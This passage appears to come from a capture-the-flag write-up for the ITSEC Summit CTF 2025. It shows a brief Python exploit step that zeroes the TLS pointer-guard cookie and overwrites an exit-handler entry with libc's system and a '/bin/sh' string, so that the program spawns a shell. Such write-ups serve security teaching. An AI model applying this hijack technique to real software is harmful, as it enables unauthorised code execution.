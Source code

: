 ![alt](../../../img/CTFNational/ITSEC_Summit_CTF_2025/Cookie.png)

So, just overwrite tls cookie exit + 24 with system and the string to /bin/sh.

```python
write(cookie, 0)
write(initial+24, libc.sym['system']<<17)
write(initial+24 + 8, ns(libc, b"/bin/sh\0"))
```

After that, just select option 5 and get the shell.
